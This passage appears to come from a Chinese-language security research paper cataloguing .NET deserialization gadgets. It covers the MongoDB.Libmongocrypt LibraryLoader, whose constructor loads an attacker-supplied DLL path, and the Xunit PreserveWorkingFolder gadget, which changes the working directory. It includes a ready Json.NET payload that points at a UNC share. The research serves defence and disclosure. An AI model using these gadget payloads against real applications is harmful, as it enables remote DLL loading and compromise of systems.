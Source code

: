 这个小工具与 Grpc.Core 中存在的 `UnmanagedLibrary` 很相似。`MongoDB.Libmongocrypt.LibraryLoader+WindowsLibrary` 类实现了一个带有单参数的公共构造函数，接受攻击者提供的路径。

```plain
private class WindowsLibrary : LibraryLoader.ISharedLibraryLoader 
{ 
    public WindowsLibrary(string path) 
    { 
        this._handle = LibraryLoader.WindowsLibrary.LoadLibrary(path); // [1] 
        if (this._handle == IntPtr.Zero) 
        { 
            throw new LibraryLoadingException(path + ", Windows Error: " +  
Marshal.GetLastWin32Error().ToString()); 
        } 
    } 
    [DllImport("kernel32", CharSet = CharSet.Ansi, SetLastError = true)] 
    public static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] 
string lpFileName); 

 ... 
}
```

代码段 48 WindowsLibrary constructor

在 \[1\] 处，它调用了 `kernel32!LoadLibrary` 并使用由攻击者控制的路径。根据这一点，攻击者可以加载远程本地 DLL 或任何本地 DLL。

`MongoDB.Libmongocrypt.LibraryLoader` 还实现了另外两个子类，它们也可以通过反序列化来滥用：

-   `LinuxLibrary`，调用 `libdl!dlopen`。
-   `DarwinLibraryLoader`，调用 `libdl!dlopen`。

#### 2.4 Xunit Execution – PreserveWorkingFolder

目标类：`Xunit.Sdk.TestFrameworkDiscoverer+PreserveWorkingFolder`

适用性（序列化器）：`Json.Net`、`XamlReader`、`MessagePack` 及其他潜在序列化器。

适用性（.NET）：.NET Framework（.NET>=5 未经验证）

最新测试版本：2.5.1

效果：更改进程的当前目录，导致 `winbase!SetCurrentDirectory` 调用。攻击者可以利用它来滥用基于相对路径的文件操作。

小工具（Json.NET）：

```plain
{ 
    "$type":"Xunit.Sdk.TestFrameworkDiscoverer+PreserveWorkingFolder,  
xunit.execution.desktop, Version=2.5.0.0, Culture=neutral,  
PublicKeyToken=8d05b1bb7a6fdb6c", 
    "assemblyInfo": 
    { 
        "$type":"Xunit.Xunit1AssemblyInfo, xunit.runner.utility.net452,  
Version=2.5.0.0, Culture=neutral, PublicKeyToken=8d05b1bb7a6fdb6c", 
        "assemblyFileName":"\\\\192.168.1.100\\poc\\poc" 
    } 
}
```
